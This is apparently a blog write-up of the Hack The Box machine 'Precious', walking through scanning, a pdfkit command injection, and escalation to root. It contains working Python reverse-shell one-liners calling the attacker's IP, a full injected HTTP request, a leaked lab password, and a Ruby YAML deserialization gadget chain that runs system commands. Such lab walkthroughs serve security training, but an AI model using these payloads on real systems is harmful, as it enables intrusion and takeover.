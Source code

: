 ```yaml
---
layout: post
title:  Hack the Box pentest Precious
image: /assets/img/HTB-Logo.png
date:   2023-01-11 15:49:01
tags:
- pentest
description: Basic pentest challenge
categories:
- Hack The Box
- Pentest
---
```


Description

![](/assets/img/2023-01-11-15-51-29.png)


This machine focuses on giving only 1 path of access without rabbitholes or distractions. 

Running nmap against it we only see 2 services ssh, and a webserver.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-11 05:28 EST
Nmap scan report for 10.10.11.189
Host is up (0.027s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds

```


Afterwards we look at the webservice from 2 viewpoints:

![](/assets/img/2023-01-11-15-55-29.png)

We open burp and intercept a packet from this page in order to see if any banners are shown:

![](/assets/img/2023-01-11-15-59-05.png)


Running gobuster yields nothing:
```
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://precious.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /home/kali/Desktop/stuff/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.3
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2023/01/11 05:31:15 Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 4911 / 4990 (98.42%)===============================================================
2023/01/11 05:31:28 Finished
===============================================================
```              


Also we open ncat and point the app at us by putting http:ip:port in the form. We get:

nc -nvlp 8888                      
listening on [any] 8888 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.11.189] 39288
GET / HTTP/1.1
Host: 10.10.14.42:8888
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*

We identify wkhtmltopdf which is exploitable in some versions but not ours. Still I tried some exploits to no success.


Afterwards we look at the product of the page, the pdf files. Using exiftool we read the metadata of the pdf produced.

```
ExifTool Version Number         : 12.54
File Name                       : qb5e0d3ddb13qp0cvjs4ml4u4syqhhsl.pdf
Directory                       : .
File Size                       : 10.0 kB
File Modification Date/Time     : 2023:01:11 05:44:47-05:00
File Access Date/Time           : 2023:01:11 05:44:48-05:00
File Inode Change Date/Time     : 2023:01:11 05:44:47-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We see pdfkit which is exploitable and we can gain a shell.

For the shell we can use payloadsallthethings and get the python, but change python to python3.
this should work
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'


```
POST / HTTP/1.1

Host: precious.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 282

Origin: http://precious.htb

Connection: close

Referer: http://precious.htb/

Upgrade-Insecure-Requests: 1



url=http://10.10.14.42:8000/index.html?crow%3D%2520%60python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")';sleep 2%60
```
This should get us shell. You can use any variable name, i used crow.

Afterwards we run linpeas and search through the output.

One of the files contains the password for the user henry.
```
╔══════════╣ Executable files potentially added by user (limit 70)
2022-11-21+15:15:08.0729708500 /usr/local/sbin/laurel                                                           
2022-09-26+05:04:43.6880195170 /home/ruby/.bundle/config
2022-09-26+05:04:42.9800195060 /usr/local/bin/tilt
2022-09-26+05:04:42.8480195040 /usr/local/bin/rackup
2022-09-26+05:04:39.0520194460 /usr/local/bin/bundler
2022-09-26+05:04:39.0520194460 /usr/local/bin/bundle
```


Afterwards we get the contents and use the ssh to gain a better shell with the user henry:

---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:/var/www/pdfapp$ 

After running linpeas again we see that henry can run as sudo ruby and a file:

```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

We see that there is a yaml file being loaded and use an exploit for yaml deserialization.
You can create the dependencies.yml file anywhere but it's better to make it in tmp.
The exploitable file should look like:


```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "your revshell"
         method_id: :resolve
```

This will get you to root and you can then get the root flag.